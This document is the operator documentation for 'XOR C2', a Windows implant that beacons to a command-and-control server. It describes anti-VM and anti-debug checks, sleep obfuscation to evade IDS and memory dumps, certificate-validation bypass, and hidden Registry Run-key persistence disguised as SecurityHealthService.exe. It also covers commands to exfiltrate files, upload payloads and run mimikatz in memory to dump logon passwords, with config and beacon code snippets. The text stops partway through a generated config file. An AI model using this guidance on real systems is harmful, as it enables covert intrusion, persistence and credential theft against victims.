# XOR C2 - Agent Documentation

## Overview

The XOR agent is a Windows implant written in C++ designed for covert communication with the C2 server. It supports multiple payload formats and offers advanced command execution capabilities.

## Agent Architecture



## Payload Types

### 1. Windows EXE
Standard Windows executable (.exe)

| Characteristic | Value |
|----------------|-------|
| Format | PE64 (x86_64) |
| Compiler | x86_64-w64-mingw32-g++ |
| Average size | ~100 KB |
| Persistence | Automatic (Registry Run Key) |

### 2. Windows DLL
Dynamic library for injection

| Characteristic | Value |
|----------------|-------|
| Format | PE64 DLL |
| Entry point | DllMain |
| Usage | Reflective injection, side-loading |
| Export | `agent_run()` |

### 3. Shellcode
Raw binary code for memory injection

| Characteristic | Value |
|----------------|-------|
| Format | Raw binary |
| Usage | Process injection, BOF |
| Generation | Via ReflectiveLoader (DLL → Shellcode) |

### 4. Windows Service
Agent running as a Windows service

| Characteristic | Value |
|----------------|-------|
| Format | PE64 EXE |
| Service name | `XorService` |
| Display name | `Xor Service` |
| Installation | `agent.exe install` |
| Uninstallation | `agent.exe uninstall` |

---

## Agent Configuration

### Generation parameters

When generating via `/api/generate`, the following parameters are injected into `config.h`:


### Configuration options

#### host
**Type**: `string`
**Description**: IP address or domain of the C2 server
**Example**: `"192.168.1.10"` or `"c2.example.com"`

```cpp
constexpr char XOR_SERVERS[] = "192.168.1.10";
```

---

#### port
**Type**: `integer`
**Description**: HTTP listener port
**Example**: `80`, `443`, `8080`

```cpp
constexpr int XOR_PORT = 80;
```

---

#### uri_path
**Type**: `string`
**Description**: URI path for beacon communications
**Example**: `"/api/update"`, `"/cdn/check"`, `"/static/js/main.js"`

```cpp
constexpr char RESULTS_PATH[] = "/api/update";
```

**Tip**: Use paths that resemble legitimate traffic.

---

#### user_agent
**Type**: `string`
**Description**: User-Agent header for HTTP requests
**Important**: Must match exactly the listener configuration

```cpp
constexpr char USER_AGENT[] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36";
```

**Common examples**:
- Chrome: `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36`
- Firefox: `Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0`
- Edge: `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0`

---

#### xor_key
**Type**: `string`
**Description**: XOR encryption key for communications
**Important**: Must match exactly the listener key

```cpp
constexpr char XOR_KEY[] = "mysupersecretkey";
```

**Recommendations**:
- Minimum 16 characters
- Mix of letters, digits, symbols
- Unique per operation

---

#### beacon_interval
**Type**: `integer` (seconds)
**Description**: Interval between check-ins
**Default**: `60`

```cpp
constexpr int BEACON_INTERVAL = 60;
```

**Strategies**:
| Scenario | Recommended interval |
|----------|----------------------|
| Test/Debug | 5-10 seconds |
| Active operation | 30-60 seconds |
| Long-term persistence | 300-3600 seconds |
| Stealth mode | 1800+ seconds |

---

#### anti_vm
**Type**: `boolean`
**Description**: Enables anti-virtualization checks
**Default**: `false`

```cpp
constexpr bool ANTI_VM_ENABLED = true;
```

**7 detection methods**:

| Method | Description | Detection criterion |
|--------|-------------|---------------------|
| Hypervisor Bit | CPUID bit 31 of ECX | Bit set = VM |
| CPU ID | Checks vendor ID | != "AuthenticAMD" or "GenuineIntel" |
| CPU Brand String | Analyzes CPU name | Contains "virtual", "qemu", "vmware", "vbox", "hyper-v" |
| Screen Resolution | Screen size | < 1280x720 or > 3840x2160 |
| Memory Amount | Total RAM | < 2 GB |
| CPU Core Count | Number of cores | = 1 core |
| Disk Space | Disk space on C:\ | < 20 GB |

**Detection threshold**: The agent stops if >= 1 detection is positive.

---

#### anti_debug
**Type**: `boolean`
**Description**: Enables anti-debugging checks
**Default**: `false`

```cpp
constexpr bool ANTI_DEBUG_ENABLED = true;
```

**Implemented detection methods**:

| Method | Description | Technical detail |
|--------|-------------|------------------|
| IsDebuggerPresent | Standard Windows API | Checks the kernel flag |
| PEB BeingDebugged | Direct PEB read | Access to `BeingDebugged` field at 0x60 (x64) or 0x30 (x86) |

**Architecture-specific**:
- **x86_64**: Read via `__readgsqword(0x60)` to access the PEB
- **x86**: Read via `__readfsdword(0x30)` to access the PEB

**Behavior**:


**Educational use cases**:
- Demonstration of anti-forensics techniques
- Illustration of malware protection mechanisms
- Study of the PEB (Process Environment Block) in Windows security

---

#### sleep_obfuscation
**Type**: `boolean`
**Description**: Enables sleep obfuscation to mask the beacon interval
**Default**: `false`

```cpp
constexpr bool SLEEP_OBFUSCATION_ENABLED = true;
```

**Available obfuscation types**:

1. **Simple Obfuscated Sleep** - Uses Windows thread pools
   ```cpp
   obfuscated_sleep(DWORD milliseconds);
   ```
   - Replaces classic `Sleep()` with `CreateThreadpoolTimer()`
   - Avoids easy breakpoints on `Sleep()`
   - Less detectable by dynamic analysis

2. **Sleep with Jitter** - Adds variability to the beacon interval
   ```cpp
   obfuscated_sleep_with_jitter(DWORD baseMilliseconds, FLOAT jitterPercent);
   ```
   - Applies a random variation (±20% by default)
   - Example: `SleepWithJitter(300000, 0.2f)` = 240-360 seconds
   - Makes traffic less predictable for IDS/IPS

3. **Sleep with Memory Encryption** - Encrypts sensitive data during sleep
   ```cpp
   SleepWithEncryption(DWORD milliseconds, const std::vector<std::pair<PVOID, SIZE_T>>& regions);
   ```
   - Encrypts specified memory regions before sleep
   - Automatically decrypts after wakeup
   - Protects against memory dumps during sleep
   - 256-bit XOR key regenerated per session

**Internal architecture**:



**Advantages over classic Sleep()**:

| Aspect | Sleep() | Obfuscated Sleep |
|--------|---------|-----------------|
| Easy breakpoint | Yes | No (thread pool) |
| Traffic detection | Regular/predictable | With jitter: variable |
| Unprotected memory | Readable dump | Encrypted (with encryption) |
| Compatibility | 100% | 100% |
| Performance | Native | +10-15% overhead |

**Full configuration in config.h**:

```cpp
constexpr bool ANTI_DEBUG_ENABLED = true;
constexpr bool SLEEP_OBFUSCATION_ENABLED = true;
constexpr FLOAT JITTER_PERCENT = 0.15f;  // ±15% variation
```

**Usage example in the beacon cycle**:

```cpp
// At startup
initialize_sleep_obfuscation();
anti_debug_check();

// Beacon loop
while (true) {
    // Server check-in
    beacon();

    // Obfuscated sleep with jitter
    obfuscated_sleep_with_jitter(BEACON_INTERVAL, JITTER_PERCENT);
}
```

---

#### use_https
**Type**: `boolean`
**Description**: Forces the use of HTTPS instead of HTTP
**Default**: `false`

```cpp
constexpr bool USE_HTTPS = true;
```

**Note**: The agent automatically bypasses SSL certificate validation (self-signed certificates are supported).



---

#### headers
**Type**: `array of [key, value]`
**Description**: Custom HTTP headers
**Example**: `[["Accept", "application/json"], ["X-Custom", "value"]]`

```cpp
constexpr char HEADER[] = "Accept: application/json\r\nX-Requested-With: XMLHttpRequest";
```

**Useful headers for stealth**:
```json
[
  ["Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"],
  ["Accept-Language", "en-US,en;q=0.5"],
  ["Accept-Encoding", "gzip, deflate"],
  ["Connection", "keep-alive"],
  ["Cache-Control", "no-cache"]
]
```

---

## Agent Lifecycle



### 1. Initialization
- Loading configuration
- Initializing network modules
- Initializing thread pool (for sleep obfuscation)

### 2. Anti-detection checks
- **Anti-VM** (if `ANTI_VM_ENABLED = true`)
  - 7 detection methods
  - Terminates silently if VM detected

- **Anti-Debug** (if `ANTI_DEBUG_ENABLED = true`)
  - `IsDebuggerPresent()` check
  - PEB check (BeingDebugged flag)
  - Terminates silently if debugger detected

### 3. Sleep obfuscation preparation
- Initialization of `SleepObfuscator` (if `SLEEP_OBFUSCATION_ENABLED = true`)
- Generation of 256-bit XOR key for memory encryption
- Creation of Windows thread pool

### 4. Information collection
The agent automatically collects:
- **hostname**: Machine name
- **username**: Logged-in user (DOMAIN\user)
- **ip_address**: IP address
- **process_name**: Host process name
- **os**: Windows version

### 5. Persistence installation
- **Automatic persistence** (MITRE T1547.001)
- Copies to `%APPDATA%\Microsoft\Security\SecurityHealthService.exe`
- Creates Registry Run key (user-level, no admin required)
- Skipped if already installed

### 6. Beacon (Check-in)
Regular communication with the server:
1. Sending system information
2. Receiving pending commands
3. Executing commands
4. Submitting results
5. Obfuscated sleep with jitter for `beacon_interval`

**Sleep details**:
- If jitter enabled: `base_interval * (1 ± jitter_percent)`
- Uses `CreateThreadpoolTimer()` instead of `Sleep()`
- Optionally encrypts sensitive memory regions

---

## Supported Commands

### Shell Command
Executing system commands via cmd.exe

**Operator-side format**:
```
whoami /all
dir C:\Users
ipconfig /all
```

**Internal format**:
```
'cmd':'whoami /all'
```

**Execution flow**:


---

### Download (Exfiltration)
Downloads a file from the target to the server

**Operator-side format**:
```
/download C:\Users\admin\Documents\secret.pdf
```

**Internal format**:
```
'download':'C:\Users\admin\Documents\secret.pdf'
```

**Execution flow**:


**Result**:
- Type: `file`
- Output: Base64-encoded JSON containing `{filename, content}`
- File saved in `downloads/`

---

### Upload (Infiltration)
Sends a file from the operator to the target

**Operator-side format**:
```
/upload /home/operator/payload.exe
```

**Internal format**:
```
'upload':'base64_encoded_json'
```

Where the JSON contains:
```json
{
  "filename": "payload.exe",
  "content": "TVqQAAMAAAAEAAAA..."
}
```

**Execution flow**:


**Destination on the target**: Agent's current directory

---

### PE-Exec (In-memory execution)
Executes a PE (Portable Executable) directly in memory without writing to disk

**Operator-side format**:
```
/pe-exec /tools/mimikatz.exe sekurlsa::logonpasswords
```

**Execution flow**:


**PE loading process**:



**Limitations**:
- PE must be 64-bit if the agent is 64-bit
- Some system PEs (whoami.exe, etc.) may fail as they depend on unavailable resources
- PEs with anti-tampering may detect reflective loading

**Recommendations**:
- Test PEs with simple tools first
- Prefer PEs compiled specifically for reflective execution
- Tools such as Mimikatz, Rubeus generally work well

---

## Automatic Persistence (MITRE T1547.001)

The agent automatically installs persistence on first launch using the **Registry Run Keys** technique (MITRE ATT&CK T1547.001).

### Mechanism



### Technical details

| Element | Value |
|---------|-------|
| Registry key | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` |
| Value name | `WindowsSecurityHealth` |
| EXE location | `%APPDATA%\Microsoft\Security\SecurityHealthService.exe` |
| Required privileges | None (HKCU = user-level) |
| File attributes | Hidden, System |

### Behavior

1. **First launch**:
   - Checks whether persistence already exists
   - Copies the executable to `%APPDATA%\Microsoft\Security\`
   - Creates the registry key pointing to the copied executable
   - Marks the files as hidden

2. **Subsequent launches**:
   - Detects that persistence is already in place
   - Continues normal execution

3. **After reboot**:
   - Windows automatically runs the agent via the Run key
   - The agent starts from the persistent location

### Relevant files

| File | Role |
|------|------|
| `persistence.h` | Function declarations |
| `persistence.cpp` | Persistence implementation |
| `main_exe.cpp` | Automatic call at startup |
| `main_dll.cpp` | Automatic call at startup |

---

## Encrypted Communication

### Encryption protocol



### HTTPS support

The agent natively supports HTTPS with certificate validation bypass:

```cpp
// Ignored SSL flags
SECURITY_FLAG_IGNORE_UNKNOWN_CA         // Unknown CA
SECURITY_FLAG_IGNORE_CERT_CN_INVALID    // Invalid CN
SECURITY_FLAG_IGNORE_CERT_DATE_INVALID  // Expired date
SECURITY_FLAG_IGNORE_REVOCATION         // Revocation
```

**Retry Logic**: 3 attempts on SSL/TLS failure.

**Timeouts**: 30 seconds (connect, send, receive).

### XOR implementation

```cpp
std::string xor_encrypt(const std::string& data, const std::string& key) {
    std::string result = data;
    for (size_t i = 0; i < data.size(); i++) {
        result[i] = data[i] ^ key[i % key.length()];
    }
    return result;
}
```

**Note**: XOR is symmetric — the same code encrypts and decrypts.

---

## Agent File Structure

```
agent/
├── http/
│   ├── main_exe.cpp          # EXE entry point (standalone)
│   ├── main_dll.cpp          # DLL entry point (injection)
│   ├── main_svc.cpp          # Windows Service entry point
│   ├── config.h              # Configuration (dynamically generated)
│   ├── http_client.cpp       # HTTP/HTTPS communication (WinINet)
│   ├── http_client.h
│   ├── crypt.cpp             # XOR encryption
│   ├── crypt.h
│   ├── task.cpp              # Task manager (cmd, download, upload, pe-exec)
│   ├── task.h
│   ├── pe-exec.cpp           # In-memory PE execution (reflective loading)
│   ├── pe-exec.h
│   ├── persistence.cpp       # Automatic persistence (T1547.001)
│   ├── persistence.h
│   ├── base64.cpp            # Base64 encoding
│   ├── base64.h
│   ├── file_utils.cpp        # File operations (binary read/write)
│   ├── file_utils.h
│   ├── system_utils.cpp      # System information (hostname, IP, etc.)
│   ├── system_utils.h
│   ├── vm_detection.cpp      # VM detection (7 methods)
│   ├── debug_detection.cpp   # ⭐ Debug detection (IsDebuggerPresent + PEB)
│   ├── sleep_obfuscation.cpp # ⭐ Sleep obfuscation with jitter + memory encryption
│   ├── sleep_obfuscation.h
│   ├── json.hpp              # JSON parser (nlohmann)
│   └── ReflectiveLoader/     # Shellcode generation
│       └── DllLoaderShellcode/
│           ├── shellcodize.py    # DLL → Shellcode converter
│           └── Loader/           # Reflective loader code
```

**New additions** (⭐):
- `debug_detection.cpp`: Implements two anti-debug methods
- `sleep_obfuscation.cpp/h`: `SleepObfuscator` class with 3 sleep strategies

---

## Full Configuration Example

### Generation request

```json
{
  "listener_name": "http_covert",
  "payload_type": "exe",
  "config": {
    "host": "cdn.legitimate-domain.com",
    "port": 443,
    "uri_path": "/api/v2/telemetry/collect",
    "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    "xor_key": "Kj#9xL!mP2@nQw5$vR8&",
    "beacon_interval": 300,
    "anti_vm": true,
    "headers": [
      ["Accept", "application/json, text/plain, */*"],
      ["Accept-Language", "en-US,en;q=0.9"],
      ["Accept-Encoding", "gzip, deflate, br"],
      ["Connection", "keep-alive"],
      ["Cache-Control", "no-cache"],
      ["X-Requested-With", "XMLHttpRequest"]
    ]
  }
}
```

### Generated config.h

```cpp
#pragma once

constexpr char XOR_KEY[] = "Kj#9xL!mP2@nQw5$vR8&";
